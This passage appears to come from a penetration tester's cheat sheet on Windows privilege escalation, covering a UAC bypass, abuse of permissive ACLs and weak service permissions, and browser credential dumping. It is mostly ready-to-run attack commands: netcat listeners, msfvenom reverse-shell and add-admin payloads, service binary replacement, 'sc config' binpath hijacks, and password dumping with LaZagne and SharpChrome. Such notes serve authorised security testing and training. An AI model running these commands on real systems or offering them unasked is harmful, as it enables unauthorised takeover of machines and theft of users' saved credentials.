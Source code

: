 - `nc -lvnp CHOSEN-PORT` launch listener
- `rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll` run the dll to get the reverse shell back and check if uac is enabled for our current user
- `C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe` execute this to get an elevated shell

### Weak permissions

#### Permissive ACLs

- Pentips on abusing ACLs [here](abusing-acl.md)
- `.\SharpUp.exe audit` to enumerate
- If you detect an executable that you could abuse you can check the permissions with [icacls](https://ss64.com/nt/icacls.html) `icacls "C:\Path\to\file.exe"`
- Make a back up of the original binary and replace it with a malicious one generated by msfvenom `msfvenom -p windows/shell/reverse_tcp LHOST=tun0 LPORT=8888 -f exe > file.exe` (instead of shell name it with the name of the executable that you are abusing
- Set up a listener `nc -lnvp 8888`
- `cmd /c copy /Y file.exe "C:\Path\to\file.exe"` copy the exec instead of the original one
- `sc start file` start the service
- Get your shell
- If you want to exploit it by adding a user `msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators user /add" -f exe > file.exe`

#### Weak Service permissions

- `.\SharpUp.exe audit` to enumerate
- Check permissions on the file you might be able to abuse using win internals [AccessChk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) `accesschk.exe /accepteula -quvcw service`
- `sc config service binpath="cmd /c net localgroup administrators user /add"` change the service binary path 
- `sc stop service` stop the service
- `sc start service` start the service (it will fail but our exploit will work)
- `net localgroup administrators` check that you user is now admin
- To clean up
  - `sc config WindScribeService binpath="C:\Path\to\service.exe"` revert binary path
  - `sc start service` start the service
  - `sc query service` check that service is running

## Privesc with found credentials

- You can read more about hunting credentials [here](powershell-cmd.md#hunting-passwords) and [here](powershell-cmd.md#misc)

### Browser Credentials

- We can use [SharpChrome](https://github.com/GhostPack/SharpDPAPI) to retrive cookies and saved logins from Google Chrome
- We can use [lazagne](https://github.com/AlessandroZ/LaZagne) to dump passwords from the system `.\lazagne.exe all`

## Other ways to privesc

